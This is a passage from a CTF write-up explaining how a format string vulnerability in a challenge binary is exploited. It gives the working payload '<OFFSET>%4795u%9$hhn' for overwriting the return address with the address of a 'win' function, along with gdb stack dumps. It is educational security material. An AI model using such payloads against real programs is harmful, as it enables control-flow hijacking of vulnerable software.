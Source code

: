 There's another vulnerability here:
the do while loop checks for each character,
except the last one!<br>
This means that we can input the character `n` used for the `%n` format identifier,
allowing us to overwrite the return address in memory.

### Second Payload

With our knowledge on format string vulnerability,
our second payload looks like this: `<OFFSET>%4795u%9$hhn`
We use the `hh` modifier on `%n` so that it points to a byte.

`4795` is the decimal representation of `0x12bb`,
close to address of `win`, `0x12bf`.
This more of an on-the-field adjustment,
as when I use the latter (as hypothesis said it should be),
it would actually point off by one instruction like this:

```
0x00007ffe55993468│+0x0048: 0x000055d553d652c3  →  <win+0004> push rbp
```

Our `<OFFSET>` would be a 4 character padding, `AAAA`,
since our input must be 16 byte length and `%4795u%9$hhn` is already 12 byte.

In format string identifier, `$` allow us to access arguments by it's position,
so `9$` would refer to the ninth argument passed to `printf()`.
But isn't `printf(buf)` only has one argument?
That's correct,
but this relate to how the stack is arranged,
as there are other variable or saved registers in the stack.
That `9$` is kind of a pointer relative,
causing us to skip the 8 other "arguments" on the stack,
arriving at the correct memory address to overwrite.

How do we know it's `9`?
To be honest, trial and error was how I find it :p<br>
Maybe, this could relate to the stack,
as shown here from `gdb` when the program is inside `vuln`:

```
0x00007ffdfd628d00│+0x0000: 0x00007ff48cd66600  →  0x0000000000000000    ← $rsp
0x00007ffdfd628d08│+0x0008: 0x0000000a8cbd95ad
0x00007ffdfd628d10│+0x0010: 0x00007ff48cd6a6a0  →  0x00000000fbad2087
0x00007ffdfd628d18│+0x0018: 0x00007ffdfd628d48  →  0x000055b44959b2b5  →  <main+006c> mov edi, 0x1
0x00007ffdfd628d20│+0x0020: 0x0000000000000000   ← $rsi
0x00007ffdfd628d28│+0x0028: 0x00007ffdfd628d50  →  0x0000000000000001
0x00007ffdfd628d30│+0x0030: 0x00007ffdfd628e68  →  0x00007ffdfd629759  →  "/home/vinnie/CTF/Pwn/Compfest CTF/Peokra On Steroids/chall"
0x00007ffdfd628d38│+0x0038: 0xddfdef072567d100
0x00007ffdfd628d40│+0x0040: 0x00007ffdfd628d50  →  0x0000000000000001    ← $rbp
0x00007ffdfd628d48│+0x0048: 0x000055b44959b2b5  →  <main+006c> mov edi, 0x1
```

That offset in stack holds the return address,
pointing to an instruction in `main` right after the call to `vuln`:

